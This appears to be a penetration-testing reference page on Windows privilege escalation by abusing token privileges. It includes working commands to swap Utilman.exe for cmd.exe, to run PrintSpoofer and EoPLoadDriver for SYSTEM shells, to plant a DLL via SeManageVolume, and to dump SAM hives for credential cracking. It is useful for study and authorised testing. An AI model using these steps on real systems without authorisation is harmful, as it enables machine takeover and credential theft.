 # Exploitable privileges

## SeBackup

Allows an user to read of ownership or permissions. This permission can be exploited to [dump the SAM and SECURITY files](../../active-directory/local-credentials/#manual) and crack them to obtain plaintext credentials

## SeTakeOwnership / SeRestore

Allows an user to gain ownership over any any element of the system including files and registry keys. This privilege allows an attacker to replace any executable running as a SYSTEM service with a malicious program to execute commands as an elevated user.

### Utilman.exe exploit

```
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
copy cmd.exe C:\Windows\System32\Utilman.exe
```

After locking and unlocking the account we will be greeted with a SYSTEM shell.

## SeImpersonate / SeAssignPrimaryToken

Allows an user to impersonate and spawn processes under the context of other users on the machine. Can be exploited with [Juicy Potato](juicy-potato.md) and similar techniques.

### printSpooler.exe exploit

Download the appropriate exe file from [here](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0). Then run the following command to obtain a SYSTEM shell

```
PrintSpoofer.exe -i -c cmd
```

## SeLoadDriver

Allows to load arbitrary drivers. Can be exploited by loading drivers with known vulnerabilities. in order to load a service in memory download and compile the following [exploit](https://github.com/TarlogicSecurity/EoPLoadDriver) and invoke it as follows

```
.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService <path to sys file>
```

Exploitable drivers

* [szkg64.sys](https://www.exploit-db.com/exploits/45401)
* [Capcom.sys](https://github.com/tandasat/ExploitCapcom)

## SeManageVolume

Allows to manage permissions on volumes. Can be exploited to change ownership of all files under C:\ to the current user. The following steps allow to run a payload under SYSTEM user

1. Download compile and execute the PoC [here](https://github.com/xct/SeManageVolumeAbuse/blob/main/SeManageVolumeAbuse/SeManageVolumeAbuse.cpp)
2. Write a custom DLL to C:\Windows\System32\wbem\tzres.dll
3. Trigger the payload under SYSTEM by executing `systeminfo`
